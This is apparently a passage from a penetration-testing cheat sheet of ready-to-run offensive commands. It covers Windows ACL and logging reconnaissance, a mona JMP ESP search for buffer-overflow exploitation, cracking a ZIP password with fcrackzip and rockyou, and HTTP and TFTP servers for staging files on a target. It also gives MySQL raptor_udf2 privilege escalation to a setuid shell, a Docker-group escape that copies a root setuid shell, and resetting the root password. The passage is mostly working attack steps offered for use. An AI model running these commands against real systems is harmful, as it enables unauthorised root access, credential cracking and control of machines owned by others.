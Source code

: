     $acls = get-acl $fileName  -ErrorAction SilentlyContinue | select -exp access | ? {$_.filesystemrights -match "full|modify|write" -and $_.identityreference -match "authenticated users|everyone|$env:username"}
    if($acls -ne $null)
    {
        [pscustomobject]@{
            filename = $fileName
            user = $acls | select -exp identityreference
        }
    }
}
Check if Powershell Logging is Enabled
reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\Transcription
Check WinEvent Logs for SecureString Exposure
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104} | Select-Object -Property Message | Select-String -Pattern 'SecureString'
Check WinEvent for Machine Wake/Sleep times
Get-WinEvent -FilterHashTable @{ ProviderName = 'Microsoft-Windows-Power-TroubleShooter'  ; Id = 1 }|Select-Object -Property @{n='Sleep';e={$_.Properties[0].Value}},@{n='Wake';e={$_.Properties[1].Value}}
Audit Policies
auditpol /get /category:*
Check if LSASS is running in PPL
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL
Binary Exploitation with ImmunityDebugger
Get Loaded Modules
# We're interested in modules without protection, Read & Execute permissions
!mona modules
Finding JMP ESP Address
!mona find -s "\xFF\xE4" -m moduleName
Cracking a ZIP Password
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
Setting up Simple HTTP server
# Linux
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -r webrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:80
MySQL User Defined Fuction Privilge Escalation
Requires raptor_udf2.c and sid-shell.c or full raptor.tar:
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');
Docker Privilege Esclation
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
Resetting root Password
echo "root:spotless" | chpasswd
Uploading Files to Target Machine
TFTP
#TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start